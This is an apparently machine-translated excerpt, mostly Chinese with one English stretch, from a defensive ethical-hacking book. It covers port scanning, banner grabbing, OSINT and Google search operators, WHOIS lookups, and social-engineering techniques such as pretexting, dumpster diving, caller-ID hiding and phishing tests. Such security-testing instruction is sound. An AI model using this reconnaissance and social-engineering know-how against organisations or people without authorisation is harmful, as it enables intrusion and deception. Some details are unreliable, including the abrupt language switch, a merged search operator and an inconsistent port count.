关于组织业务和信息系统的可获信息量可能惊人，且大多可在 Internet 上公开获取。你的任务是找出这些信息。从社交媒体到搜索引擎再到专用情报收集工具，关于网络和信息漏洞的资料如果在正确位置查找，数量众多。这些信息可能让恶意攻击者和内部人员获取敏感数据并针对组织的特定系统、部门或关键人员进行攻击。我在第 第 5 章 中详细说明了信息收集过程。

## 扫描系统

主动信息收集能够提供更详细的网络信息，帮助你从攻击者的视角观察系统。你可以执行以下操作：

*   利用 WHOIS 搜索提供的信息，测试其他相关的 IP 地址和主机名。在映射和收集网络信息时，你可以看到系统的布局，包括 IP 地址、主机名（通常为外部但有时为内部）、运行的协议、开放端口、可用共享、运行的服务和应用程序。

*   在测试范围内扫描内部主机。（它们本应被检测。）这些主机可能对外部不可见（我们希望它们不可见），但你必须对它们进行测试，以了解内部员工、其他内部人员或甚至由外部方控制的恶意软件可能访问的内容。最严重的情况是攻击者已在内部立足。为保险起见，检查内部系统的弱点。


如果您对系统扫描不够自信，可以考虑使用带有测试系统的实验室或运行虚拟机软件的系统，例如下面列出的：

* VMware Workstation Pro ([`https://www.vmware.com/products/workstation-pro.html`](https://www.vmware.com/products/workstation-pro.html))

* VirtualBox，开源虚拟机替代方案 ([`https://www.virtualbox.org`](https://www.virtualbox.org))

### Hosts

扫描并记录从互联网和内部网络可访问的特定主机。首先使用以下工具对特定主机名或 IP 地址进行 ping：

* 操作系统自带的基本 ping 实用程序。

* 可同时 ping 多个地址的第三方工具，如 Windows 的 NetScanTools Pro ([`www.netscantools.com`](http://www.netscantools.com))，Linux 的 fping ([`http://fping.sourceforge.net`](http://fping.sourceforge.net))。

* 访问 WhatIsMyIP.com ([`www.whatismyip.com`](http://www.whatismyip.com)) 可查看您的网关 IP 在 Internet 上的显示方式。进入该站点后，您的公共 IP（防火墙或路由器，最好不是本地计算机）会显示。此信息让您大致了解外界能看到的最外层 IP 地址。

### 开放端口

使用网络扫描和分析工具（如下列）扫描开放端口：

* 使用 NetScanTools Pro 或 Nmap ([`http://nmap.org`](http://nmap.org)) 扫描网络端口，详情见 第 9 章。

* 使用网络分析仪（如 Omnipeek ([`www.savvius.com`](http://www.savvius.com)) 或 Wireshark ([`www.wireshark.com`](http://www.wireshark.com)）监控网络流量。该主题在本书的多个章节中有所阐述。

在内部进行扫描很简单。只需将 PC 连接到网络，加载软件并开始扫描。但请注意网络分段以及内部 IPS 可能会阻碍您的工作。

从外部网络进行扫描需要更多步骤。最简便的方法是为您的计算机分配公共 IP 地址，并将其插入防火墙或路由器公网侧的交换机中。虽然计算机本身并未直接连接到 Internet，但只要位于网络边界之外，这种连接即可工作。您也可以在家中或远程办公地点进行外部扫描。

## 确定开放端口上的服务

作为安全专业人员，您需要在扫描系统时获取关键信息。您通常可以识别以下内容：

* 使用的协议，如 DNS 和 NetBIOS。

* 主机上运行的服务，如邮件、Web 与数据库系统。

* 远程访问服务，如 Remote Desktop Protocol、Telnet 与 Secure Shell。

* 虚拟私网服务，如 SSL/TLS 与 IPsec。

* 网络共享的权限和身份验证要求。

您可以在网络扫描程序报告为可访问或开放的以下示例端口中查找：

* ICMP echo 回显（Ping），表明 ICMP 流量允许到达和离开主机。

* TCP 端口 21，表明可能在运行 FTP。

* TCP 端口 23，表明可能在运行 Telnet。

* TCP 端口 25 或 465（SMTP 与 SMTPs），110 或 995（POP3 与 POP3S），或 143 或 993（IMAP 与 IMAPS），表明可能在运行邮件服务器。

* TCP/UDP 端口 53，表明可能在运行 DNS 服务器。

* TCP 端口 80、443 与 8080，表明可能在运行 Web 服务器或 Web 代理。

* TCP/UDP 端口 135、137、138、139 以及尤其是 445，表明可能在运行 Windows 主机。

数千个端口可能是开放的——TCP 与 UDP 各 65,534 个端口（精确说是 0–65535）。本书在描述安全检查时会介绍许多常用端口号。完整且持续更新的已知端口号（0–1023 为 well‑known，1024–49151 为 registered）列表及其对应协议和服务位于 [`www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.txt`](http://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.txt)。您也可以在 [`www.cotse.com/cgi-bin/port.cgi`](http://www.cotse.com/cgi-bin/port.cgi) 进行端口号查找。

如果服务在 TCP 或 UDP 端口上未响应，这并不意味着该服务未运行。您可能需要进一步查找。

如果您在被测试的系统上发现 Web 服务器，可以通过以下方式查看其版本：

* 在浏览器输入一个您知道不存在的页面，如 **www.your_domain.com/1234.html**。许多 Web 服务器会返回包含详细版本信息的错误页面。

* 使用 Netcraft 的 “What’s That Site Running?” 工具 ([`www.netcraft.com`](http://www.netcraft.com))，它会从 Internet 连接到您的服务器并显示 Web 服务器版本和操作系统，如 图 4-1 所示。



FIGURE 4-1: Netcraft’s web server version utility.

您可以使用以下工具获取更具体的主机信息：

* NMapWin ([`https://sourceforge.net/projects/nmapwin`](https://sourceforge.net/projects/nmapwin)) 可确定系统的操作系统版本。

* 如 SoftPerfect Network Scanner ([`https://www.softperfect.com/products/networkscanner`](https://www.softperfect.com/products/networkscanner)) 等枚举工具，可直接从 Windows 提取用户、组以及文件和共享权限。

* 许多系统在连接到端口上的服务或应用时会返回有用的横幅信息。例如，在命令行中输入 **telnet mail.your_domain.com 25** 可 Telnet 到端口 25 的邮件服务器，可能看到类似：

    `220 mail.your_domain.com ESMTP all_the_version_info_you_need_to_hack Ready`

  大多数邮件服务器会返回详细信息，如版本和当前服务包。有了这些信息，您（以及攻击者）可以通过相关网站判断系统的漏洞。

* 向无效邮箱地址发送邮件可能返回详细的邮件头信息。 bounced 消息常常泄露内部 IP 地址和软件版本，这些信息可用于未经授权的连接或映射驱动器。相关细节在 第 12 章 中有所阐述。

## 评估漏洞

找到潜在安全漏洞后，下一步是确认它们在您的环境中是否真正是漏洞。在此之前，进行手动搜索很重要。您可以在以下网站和漏洞数据库中进行研究：

* Common Vulnerabilities and Exposures ([`http://cve.mitre.org/cve`](http://cve.mitre.org/cve))

* US‑CERT Vulnerability Notes Database ([`www.kb.cert.org/vuls`](http://www.kb.cert.org/vuls))

* NIST National Vulnerability Database ([`https://nvd.nist.gov`](https://nvd.nist.gov))


## 将安全测试付诸行动

IN THIS PART …

查找有关您业务和系统的公开信息。

掌握“黑客”人工的艺术。

了解您的物理安全弱点所在。

测试那些正在造成重大风险的密码。

## 第 5 章

## 信息收集

IN THIS CHAPTER

**从互联网中获取有关您组织的信息**

**使用 Web 资源**

**寻找您（以及其他人）可以受益的信息**

在确定您的组织面临的风险时，找出公开的关于您业务和系统的信息是至关重要的。收集这些信息是整体方法论的重要组成部分，我认为这类主题值得专门一章。

在本章中，我介绍了一些免费且简便的方法，让您了解世界对您和您的组织的了解情况。您可能会倾向于跳过这项练习，转而关注更酷、更具吸引力的技术性安全漏洞，但请不要陷入陷阱。收集此类信息至关重要，往往是许多安全泄露的起点。

## 收集公开信息

您可以从互联网上获取的关于组织的业务和信息系统的信息惊人之多。为了验证这一点，请使用下面列出的技术在您自己的组织中收集信息。

### 社交媒体

社交媒体网站是企业在线互动的新方式。浏览以下网站可以为任何企业及其人员提供无数细节：

*   Facebook (`https://www.facebook.com`)

*   LinkedIn (`https://www.linkedin.com`)

*   Twitter (`https://twitter.com`)

*   YouTube (`https://www.youtube.com`)

正如我们所见，员工往往会非常坦率地分享他们在工作上的内容、关于其业务的细节，甚至是对老板的看法——尤其是在他们的社交过滤器被关闭后喝了一点酒后！我还发现，人们在 Glassdoor (`www.glassdoor.com/Reviews/index.htm`)上对前雇主的评论中，往往能获得有趣的见解。

### 网络搜索

进行网络搜索或仅仅浏览您组织的网站，就能获取以下信息：

*   员工姓名和联系方式

*   重要公司日期

*   公司登记文件


Securities and Exchange Commission (SEC) filings (for public companies)

Press releases about physical moves, organizational changes, and new products

Mergers and acquisitions

Patents and trademarks

Presentations, articles, webcasts, or webinars (which often reveal sensitive information — often ironically labeled confidential)

Bing (`https://www.bing.com`) and Google (`https://www.google.com`) ferret out information — in everything from word processing documents to graphics files — on any publicly accessible computer. Also, they’re free. Google is my favorite. Entire books have been written about using Google, so expect any criminal hacker to be quite experienced in using this tool, including against you. (See Chapter 15 for more about Google hacking.)

With Google, you can search the Internet in several ways:

*   **Typing keywords:** This kind of search often reveals hundreds and sometimes millions of pages of information — such as files, phone numbers, and addresses — that you never guessed were available.

*   **Performing advanced web searches:** Google’s advanced search options can find sites that link back to your company’s website. This type of search often reveals a lot of information about partners, vendors, clients, and other affiliations.

*   **Using switches to dig deeper into a website:** If you want to find a certain word or file on your website, simply enter a line like one of the following into Google:  

    `site:www.your_domain.com keywordsite:www.your_domain.com filename`

You can even do a generic file-type search across the Internet to see what turns up:

`filetype:swf company_name`

Use the preceding search to find Adobe Flash `.swf` files, which can be downloaded and decompiled to reveal sensitive information that can be used against your business, as I cover in detail in Chapter 15.

Use the following search to hunt for PDF documents containing sensitive information that can be used against your business:

`filetype:pdf company_name confidential`

### Web crawling

Web-crawling utilities, such as HTTrack Website Copier (`www.httrack.com`), can mirror your website by downloading every publicly accessible file from it, similar to the way a web vulnerability scanner crawls the website it’s testing. Then you can inspect that copy of the website offline, digging into the following:

*   The website layout and configuration

*   Directories and files that may not otherwise be obvious or readily accessible

*   The HTML and script source code of web pages

*   Comment fields

Comment fields often contain useful information such as the names and email addresses of the developers and internal IT personnel, server names, software versions, internal IP addressing schemes, and general comments about how the code works. In case you’re interested, you can prevent some types of web crawling by creating Disallow entries in your web server’s `robots.txt` file, as outlined at [`www.w3.org/TR/html4/appendix/notes.html`](http://www.w3.org/TR/html4/appendix/notes.html). You can even enable web tarpitting in certain firewalls and intrusion prevention systems. Crawlers (and attackers) that are smart enough, however, can find ways around these controls.

Contact information for developers and IT personnel is great for social engineering attacks. I cover social engineering in Chapter 6.

### Websites

The following websites may provide specific information about an organization and its employees:

*   Government and business websites: 

    *   [`www.hoovers.com`](http://www.hoovers.com) and [`https://finance.yahoo.com`](https://finance.yahoo.com/) give detailed information about public companies.

    *   [`https://www.sec.gov/edgar.shtml`](https://www.sec.gov/edgar.shtml) shows SEC filings of public companies.

    *   [`https://www.uspto.gov`](https://www.uspto.gov/) offers patent and trademark registrations.

    *   The website for your state’s secretary of state or a similar organization can offer incorporation and corporate-officer information.

*   Background checks and other personal information: 

    *   LexisNexis.com (`https://www.lexisnexis.com`)

    *   ZabaSearch (`www.zabasearch.com`)

## Mapping the Network

As part of mapping out your network, you can search public databases and resources to see what other people know about your systems.

### WHOIS

The best starting point is to perform a WHOIS lookup by using any of the tools available on the Internet. In case you’re not familiar with it, WHOIS is a protocol you can use to query online databases such as Domain Name System (DNS) registries to find out more about domain names and IP address blocks. You may have used WHOIS to check whether a particular Internet domain name was available.

For security testing, WHOIS provides the following information that can give a hacker a leg up in starting a social engineering attack or scanning a network:

*   Internet domain name registration information, such as contact names, phone numbers, and mailing addresses

*   DNS servers responsible for your domain

You can look up WHOIS information at one of the following places:

*   WHOIS.net (`https://www.whois.net`)

*   A domain registrar’s site (such as [`www.godaddy.com`](http://www.godaddy.com/))

*   Your Internet service provider’s technical support page

Two of my favorite WHOIS tool websites are DNSstuff (`www.dnsstuff.com`) and MXToolBox (`https://mxtoolbox.com/`). For example, you can run DNS queries directly from MXToolBox to do the following:

*   Display general domain-registration information.

*   Show which host handles email for a domain (the Mail Exchanger \[MX\] record).

*   Map the location of specific hosts.

*   Determine whether the host is listed on certain spam blacklists.

An inexpensive commercial tool called SmartWhois (`https://www.tamos.com/products/smartwhois`) is handy to use for WHOIS lookups. A free site you can use for more basic Internet domain queries is [`http://dnstools.com`](http://dnstools.com/). Another commercial product called NetScanTools Pro (`https://www.netscantools.com`) is excellent at gathering such information, among many other things. I cover this tool and others in more detail in Chapter 9.

The following list shows various lookup sites for other categories:

*   **U.S. government:** [`https://domains.dotgov.gov/dotgov-web/registration/whois.xhtml?_m=3`](https://domains.dotgov.gov/dotgov-web/registration/whois.xhtml?_m=3) .

*   **AFRINIC:** [`https://www.afrinic.net`](https://www.afrinic.net) (Regional Internet Registry for Africa).

*   **APNIC:** [`https://www.apnic.net/about-apnic/whois_search`](https://www.apnic.net/about-apnic/whois_search) (Regional Internet Registry for the Asia Pacific Region).

*   **ARIN:** [`http://whois.arin.net/ui`](http://whois.arin.net/ui) (Regional Internet Registry for North America, a portion of the Caribbean, and subequatorial Africa).

*   **LACNIC:** [`https://lacnic.net/cgi-bin/lacnic/whois`](https://lacnic.net/cgi-bin/lacnic/whois) (Latin American and Caribbean Internet Addresses Registry).

*   **RIPE Network Coordination Centre:** [`https://apps.db.ripe.net/search/query.html`](https://apps.db.ripe.net/search/query.html) (Europe, Central Asia, African countries north of the equator, and the Middle East).

If you’re not sure where to look for a specific country, [`https://www.nro.net/about-the-nro/list-of-country-codes-and-rirs-ordered-by-country-code`](https://www.nro.net/about-the-nro/list-of-country-codes-and-rirs-ordered-by-country-code) has a reference guide.


### 隐私政策

检查您网站的隐私政策。一个良好的做法是让您的网站用户知道收集了哪些信息以及如何保护这些信息，但不要过度解释。我看到很多隐私政策披露了大量关于安全和相关系统的技术细节，这些内容本不应公开。

确保撰写隐私政策的人员（通常是非技术背景的律师）不要披露过多关于贵组织信息安全计划或基础设施的细节。要小心避免像一位曾联系我的互联网创业者那样的例子——他在与我交谈时炫耀公司的安全系统能够保护客户信息（据他自以为）。我上他的网站查看隐私政策，发现他公开了所使用的防火墙品牌和型号，以及其他关于网络和系统架构的技术信息。这类信息可能会被恶意分子利用——绝不是个好主意。

第 6 章

## 社会工程学

## 本章内容

`理解社会工程学`

`探讨社会工程学的影响`

`执行社会工程学测试`

`保护组织免受社会工程学攻击`

*Social engineering* 利用信息安全防护中最弱的环节——人。它是利用人类信任特性进行的“社会化攻击”，通过欺骗性手段获取敏感信息，进而谋取个人利益。

社会工程学是最难发动的攻击方式之一，因为它需要胆识和技巧才能在陌生人面前建立可信度；同时，它也是最难防御的，因为安全决策的主体往往是普通员工。

本章将探讨社会工程学的后果、用于自身安全测试的技术，以及针对性的防御措施。

## 介绍社会工程学

在社会工程学情境中，恶意分子冒充他人以获取原本无法访问的信息，然后利用所获信息对网络资源进行破坏、窃取或删除文件，甚至实施企业间间谍行为或其他欺诈。社交工程与*物理安全*威胁（如肩窥、渗透垃圾箱）不同，但两者常相辅相成。

以下是社会工程学的典型例子：

*   “`技术支持人员`”声称需要为用户电脑安装补丁或新软件，诱导用户下载并获取系统远程控制权。

*   “`供应商`”声称需更新组织的会计软件或电话系统，索要管理员密码并获取完整访问权限。

*   “`员工`”向安全 desk 报告丢失数据中心访问凭证，获取钥匙并获得对物理及电子信息的未经授权访问。

*   “`网络钓鱼邮件`”用于窃取用户 ID 和密码或在受害者电脑上植入恶意软件。此类攻击可分为普适型或针对型（即*钓鱼攻击*），攻击者利用获取的凭证或恶意软件进入网络、窃取知识产权、加密文件勒索等。

有时，社会工程师会自居自信的经理或高管；有时则扮演缺乏常识或天真无知的员工；也可能伪装成外部人员，如 IT 顾问或维护人员。社会工程师擅长根据受众调整身份，这种“心理操控”往往需要类似心理病态人格的特质。

有效的信息安全 —  — 尤其是应对社会工程学的安全 —  — 往往从用户开始。本书其他章节提供技术层面的防护建议，但切勿忘记：基本的人际沟通与交互对组织安全水平具有深远影响。所谓 *candy-security* 类比是“外表硬脆，内里柔软”。硬脆外层是防火墙、入侵防御系统、内容过滤等技术手段；软软内层则是组织内部的人员与流程。若攻击者突破外层防线，便能轻易攻击内层。

## 开展社会工程学测试

我在此章对测试方法的阐述方式与后续章节不同。社会工程学既是艺术也是科学，执行时需要极高的专业技巧，且高度依赖个人性格与对组织的整体认知。

若社会工程学不符合你的天性，可利用本章内容进行教育性学习，以了解如何最佳防御它。如有需要，可考虑委托第三方进行测试，这在当前业务情境下可能是最佳选择。

社会工程学可能损害他人职业生涯与声誉，泄露机密信息，尤其是在进行钓鱼测试时。务必提前规划，谨慎推进。

你可以以千姿百态的方式进行社会工程学攻击，从假装熟悉内部人员闯入大门，到发起全面的电子邮件钓鱼行动，无所不包。因此，单章难以涵盖所有行为准则，我不会提供具体的攻击操作指南。取而代之的是，我将分享在我及他人身上验证有效的社会工程学情境。你可以根据自身情况对这些技巧进行定制。

外部人员最适合执行诸如实地渗透测试等社会工程学技术。若你在自身组织内部进行测试，扮演外部人员可能会因熟悉度而受阻 —  — 在大型组织中影响不大，但在小型紧密团队中，人们容易发现身份。

你可以将社会工程学测试外包给外部公司，或委托可信的同事进行。我在第 19 章中涉及安全与测试的外包话题。

## 了解攻击者使用社会工程学的原因

人们使用社会工程学破解系统并获取信息，因为这是最简便的方式 —  — 他们更倾向于让他人敞开大门，而非亲自冒险破门。防火墙、访问控制等技术手段无法阻止坚定的社会工程师。


许多社会工程师会**慢慢**进行攻击以避免引起怀疑。社会工程师会随着时间的推移收集信息，并利用这些信息来构建对目标组织的更广泛图景。这里的一个最大优势就是**时间**。他们只有时间，并且会花费恰当的时间以确保攻击成功。或者，某些社会工程攻击可以通过一次简短的电话或电子邮件完成。所使用的方法取决于攻击者的风格和能力。无论如何，你都处于劣势。

社会工程师知道许多组织缺乏正式的数据分类计划、访问控制系统、应急响应计划或安全意识培训，他们会利用这些弱点。

社会工程师通常对各种事物（无论是内部还是目标组织之外）略有涉猎，因为这种知识有助于他们完成任务。得益于像 `LinkedIn` 和 `Facebook` 等社交媒体平台以及我在 第 5 章 中讨论的其他在线资源，社会工程师所需的每一条信息往往都触手可得。社会工程师越了解组织，就越容易冒充员工或其他可信的内部人员。他们的知识和决心使他们在管理层和员工中拥有上风，而这些人往往不认识到社交工程师所追求的信息价值。

## 理解影响

许多组织有敌人，他们希望通过社会工程造成麻烦。这些人可能是现任或前任员工，出于报复；也可能是想获得优势的竞争对手，或是想证明自己的黑客。

无论是谁制造了麻烦，每个组织都面临风险——尤其是考虑到平均公司庞大的互联网存在。跨多个地点的大型公司因其复杂性往往更易受攻击，但规模较小的公司同样可能被攻击。从接待员到保安、从高管到 IT 人员，每个人都可能成为社会工程的受害者。客服和呼叫中心员工尤为脆弱，因为他们被训练成乐于助人并乐于提供信息。

社会工程具有严重后果。由于其目标是胁迫某人提供信息以获取非法利益，任何情况都可能发生。优秀的社会工程师可以获取以下信息：

*   `用户密码`。

*   `安全徽章` 或 `钥匙`，可用于进入建筑物乃至计算机室。

*   `知识产权`，如 `设计规格`、`源代码` 以及其他 `研发文档`。

*   `机密财务报告`。

*   `私人且保密的员工信息`。

*   `个人可识别信息 (PII)`，如 `健康记录` 和 `信用卡信息`。

*   `客户名单` 和 `潜在销售线索`。

如果上述任何信息泄露，可能导致财务损失、员工士气下降、客户忠诚度降低，甚至引发法律和合规问题。可能性无限。

社交工程攻击之所以难以防范，原因有多方面。其一，它们缺乏系统的文档记录。其二，社交工程师的想象力是无限的。再加上存在多种攻击手段，攻击后恢复和防护都十分困难。此外，防火墙和入侵防御系统的“硬邦邦”外观往往会给人一种安全感，从而加剧问题。

在社交工程领域，你永远不知道下一种攻击方式会是什么。最好的做法是保持警惕，了解社交工程师的动机和手段，并通过持续的安全意识培训在组织内防范最常见的攻击。我将在本章的其余部分中讨论这些技术。

### 建立信任

信任——**难以获得，却易于失去**。信任是社会工程的核心。大多数人会信任他人，直到情境迫使他们改变看法。人们倾向于互相帮助，尤其是当信任能够建立且请求看起来合理时。大多数人希望在工作中成为团队玩家，却往往不意识到如果向不值得信赖的来源泄露过多信息会带来什么后果。这种信任使社会工程师能够实现目标。建立深度信任往往需要时间，但精明的社交工程师可以在数分钟或数小时内获得它。他们是如何做到的？

*   `亲和力`：谁能抗拒一个友好的人？人人都喜欢礼貌。社交工程师越友好（但不夸张），越有可能得到自己想要的东西。他们常通过找出共同兴趣来开始建立关系，并利用研究阶段收集的信息判断受害者的喜好，假装自己也喜欢这些事物。他们可以给受害者打电话或当面会面，并根据所掌握的信息聊聊本地体育队伍或独单生活的美好。几句低调且表达得体的评论，就可能开启一段新关系。

*   `可信度`：可信度部分取决于社交工程师的知识以及其亲和力。他们还会使用冒充——比如冒充新员工或同事（受害者尚未认识），甚至冒充与组织有业务往来的供应商。他们常以谦逊的姿态声称拥有权威，以此影响他人。最常见的社交工程技巧是做一件好事，让受害者感到有义务回报或成为组织的团队玩家。

### 利用关系

在社交工程师获得受害者信任后，他们会诱导受害者泄露不该透露的更多信息。**啪**——社交工程师即可趁机完成攻击。他们通过面对面或受害者感到舒适的电子通信，或利用技术手段让受害者泄露信息。

#### 通过言语和行为欺骗

狡猾的社交工程师可以通过多种方式从受害者那里获取内部信息。他们通常表达清晰，并专注于保持对话流畅，而不给受害者太多思考的时间。如果他们在社交工程攻击中表现出懈怠或过度紧张，以下信号可能会暴露他们：

*   过于亲切或急切。
*   提及组织内部显要人物的姓名。
*   炫耀其在组织内的权威。
*   如果请求不被满足，就威胁要进行纪律处分。
*   被质疑时表现紧张（紧闭嘴唇、摆动四肢——尤其是手脚，因为控制远离面部的身体部位需要更多有意识的努力）。
*   过度强调细节。
*   出现生理变化，如瞳孔放大或声音音调变化。
*   显得匆忙。
*   拒绝提供信息。
*   主动提供信息并回答未被询问的问题。
*   知道外人不应拥有的信息。
*   使用内部行话或俚语，尽管自己是外部人员。
*   提出奇怪的问题。
*   在书面通信中拼写错误。

良好的社交工程师不会以上述行为显露端倪，但这些迹象可能暗示恶意行为正在酝酿。如果此人是 sociopath（反社会人格）或 psychopath（精神病人），则你的经验可能会有所不同。(*Psychology For Dummies,* 2nd Edition, by Adam Cash \[John Wiley & Sons, Inc.\] 是了解人类心理复杂性的良好资源。)


社交工程师经常为别人做好事，然后反过来询问那人是否愿意帮助他们。这种常见的社交工程手段效果很好。社交工程师还使用所谓的“逆向社交工程”。他们在出现特定问题时提供帮助。随着时间的推移，问题出现（通常是社交工程师造成的），然后社交工程师帮助解决问题。他们可能会装作英雄，从而进一步推进自己的目标。社交工程师可能会向不警惕的员工请求帮助。是的——他们直接请求帮助。许多人会落入这个陷阱。

冒充员工很容易。社交工程师可以穿着相似的制服，制作假的员工证，或者简单地打扮成真实员工。人们会想：“哇，他看起来和行为都像我，所以他是我们中的一员。”社交工程师也会假装是从外部电话线打来的员工。这种技巧是利用帮助台和呼叫中心人员的一种特别流行的方法。社交工程师知道，这些员工很容易陷入惯性，因为他们的任务重复，比如不断说“请提供您的客户号码”。 

#### 通过技术进行欺骗

技术可以让社交工程师的工作更轻松、更有趣。经常，恶意的信息请求来自于受害者认为可以识别的电脑或其他电子设备。但伪造电脑名称、电子邮件地址、传真号码或网络地址很容易。幸运的是，你可以采取几种针对这种攻击的防范措施，如下一节所述。

黑客可以通过技术欺骗，发送邮件要求受害者提供关键信息。这类邮件通常包含一个链接，将受害者引向一个看起来专业且逼真的合法网站，用于“更新”用户 ID、密码和社会安全号码等账户信息。他们也可能在像 Facebook 和 Twitter 这样的社交网络上进行类似的欺骗。

许多垃圾邮件和网络钓鱼信息也使用这种手段。大多数用户因接收到大量垃圾邮件和其他不需要的邮件，往往放松警惕，打开不该打开的邮件和附件。这些邮件通常看起来专业且可信，往往诱使人们在交换礼物的名义下披露本不该透露的信息。这些社交工程手段可以在黑客已经入侵网络后发送消息，或创建假的 Internet 弹窗。同样的技巧也出现在即时通讯和智能手机短信中。

在一些广为人知的事件中，黑客向受害者发送一封假装来自 Microsoft 或其他知名供应商的补丁邮件。用户可能觉得这封信“看起来像鸭子，叫声像鸭子”，但它并不是正确的鸭子！实际上，这封信是黑客为了诱使用户安装补丁，而该补丁会安装特洛伊木马键盘记录器或创建后门，进入电脑和网络。黑客利用这些后门入侵组织的系统，或将受害者的电脑（称为 `zombies`）用作发动另一系统的跳板。即使是病毒和蠕虫也能利用社交工程。例如，LoveBug 蠕虫告诉用户他们有秘密 admirers。当受害者打开邮件时，已经太迟了。他们的电脑被感染了（而且，也许更糟的是，他们没有秘密 admirers）。

许多电脑化的社交工程战术可以通过 Internet 代理服务器、转发器、基本的 SMTP 服务器（具有开放中继功能）等匿名方式进行。当人们对请求保密个人或企业信息的请求落入陷阱时，这些社交工程攻击的来源往往难以追踪。

#### 执行社交工程攻击

社交工程的过程相当基础。通常，社交工程师会了解目标人物、组织流程以及信息系统的情况，以便进行攻击。有了这些信息，他们知道要追求什么。社交工程攻击通常分为四个简单步骤：

1. 进行研究。

2. 建立信任。

3. 通过言语、行为或技术利用关系获取信息。

4. 利用所获信息进行恶意目的。

这些步骤可能包含众多子步骤和技术，具体取决于所执行的攻击类型。

#### 确定目标

在社交工程师实施攻击之前，他们需要一个目标。这是社交工程师攻击流程的第一步，且很可能已经在他们的脑海中预设。他们想要实现什么？他们想攻击什么，为什么？是想窃取知识产权或服务器密码？还是想证明公司的防护措施可以被突破？作为安全专业人员进行社交工程时，在开始之前确定整体目标。否则，你会盲目行事，为自己和他人带来不必要的麻烦和风险。

#### 寻求信息

当社交工程师心中有目标时，他们通常会先通过收集目标（受害者）的公开信息来启动攻击。许多社交工程师会随着时间的推移慢慢收集信息，以免引起怀疑。显而易见的信息收集会被视为警示信号，但本章后面会提醒你注意其他警示标志。

无论最初的研究方法是什么，黑客可能只需要一个员工名单、几个关键内部电话号码、社交媒体最新新闻或公司日历，就能突破组织。第 5 章 为你提供了更详细的信息收集技巧，但下面列出的技术值得特别关注。

#### 利用互联网

当今的基础研究媒介是互联网。在 Google 或其他搜索引擎上用简单关键词（如公司名称或特定员工姓名）进行几分钟搜索，往往能获取大量信息。你甚至可以在证券交易委员会（SEC）的 filing 中找到更多信息，网址为 [`https://www.sec.gov`](https://www.sec.gov)，以及像 [`www.hoovers.com`](http://www.hoovers.com) 和 [`https://finance.yahoo.com`](https://finance.yahoo.com) 这样的网站。许多组织——尤其是其管理层——会对发现的大量在线信息感到震惊！鉴于如此丰富的信息，启动社交工程攻击已经足够。

`罪犯可以花几美元购买关于个人（包括高管）的完整在线背景调查，这些搜索在几分钟内即可揭示出几乎所有公开（有时甚至是私人）信息。`

#### 通过 Dumpster diving（通过垃圾箱搜索）

Dumpster diving 风险更大、更 messier，但它是获取信息的高效方法。该方法涉及翻找垃圾桶以获取公司信息。

Dumpster diving 可以翻出甚至最机密的信息，因为有些人认为他们的信息在扔进垃圾桶后是安全的。大多数人没有考虑扔掉的纸张的潜在价值，我并不是指回收价值！文件通常包含大量信息，可以为社交工程师提供渗透组织所需的线索。敏锐的社交工程师会寻找以下实体文档：

*   内部电话目录  
*   组织结构图  
*   员工手册（通常包含安全政策）  
*   网络图  
*   密码列表  
*   会议记录  
*   表格和报告  
*   客户记录  
*   包含机密信息的电子邮件打印件  


粉碎文件只有在纸张被粉碎成细小的彩纸碎片时才有效。廉价的碎纸机只能将文件粉碎成长条形，对于有决心的社会工程师来说是无效的。只要花点时间和胶带，聪明的黑客就能把文件拼凑回来，如果他下定决心这么做的话。

`黑客`常常通过在餐厅、咖啡馆和机场听取他人对话来获取机密的个人和商业信息。在手机上大声交谈的人也是社会工程师获取敏感信息的绝佳来源。（这算什么巧合呢？）飞机是窥视肩头和获取敏感信息的好地方。当我在公共场所和飞机上走动时，我听到和看到的私人信息简直难以置信！我几乎无法避免它！

坏家们也会在垃圾中翻找 USB 驱动器、光盘和其他媒体。请参见 第 7 章 了解更多关于垃圾桶和其他物理安全问题的内容，包括针对“捡垃圾者”的防范措施。

#### 电话系统

攻击者可以利用大多数语音邮件系统内置的“按名称拨号”功能获取信息。要使用此功能，通常在拨公司的主号码或输入某人语音邮箱后按 0 或 # 键。此技巧在工作时间之外效果最佳，以确保没有人接听。

社交工程师有时可以通过监听语音邮件信息来获取有价值的信息，例如当受害者出差时。他们甚至可以通过监听受害者的语音邮件、播客或网络广播来研究受害者的声音，从而学会冒充这些人。

攻击者可以通过隐藏通话来源来保护自己的身份。以下是他们隐藏位置的几种方式：

*   **住宅电话**有时可以通过在拨号前输入 `*67` 来隐藏号码不显示在来电显示中。

    `此功能在拨打免费电话（800、888、877、866）或 911 时并不有效，但在一次性手机和 VoIP（互联网语音）服务上效果很好。`

*   **办公电话**在使用电话交换机的办公室里更难以伪造，但攻击者通常只需要用户手册和电话交换机软件的管理员密码。在许多交换机中，攻击者可以输入来源号码——包括伪造的号码，例如受害者的家庭电话号码。

*   **VoIP 服务器**如开源 Asterisk (`https://www.asterisk.org`) 可以配置为发送任意号码。

#### 钓鱼邮件

最新、也是最成功的黑客手段是通过电子邮件“钓鱼”，即犯罪分子向潜在受害者发送伪造邮件，诱使他们泄露敏感信息或点击恶意链接从而感染恶意软件。钓鱼多年来存在，但随着针对看似无懈可击的企业和政府机构的高调攻击而获得更大的关注。钓鱼的成功率惊人，后果往往很丑陋。在我的钓鱼测试中，我看到的成功率（或失败率，取决于如何看待）高达 70%。一封写得好的邮件就足以窃取密码、获取敏感信息或在目标电脑上植入模拟恶意软件。

你可以自行进行钓鱼演练，我强烈推荐这样做。一种简易而有效的方法是：在你的域名（或最好是看起来相似的域名）上创建一个电子邮件账号，请求信息或链接到一个收集信息的网站，向你想测试的员工或用户发送邮件，然后观察他们做了什么。他们是否打开邮件、点击链接、泄露信息，或者（如果你运气好）什么都不做？测试真的很简单。

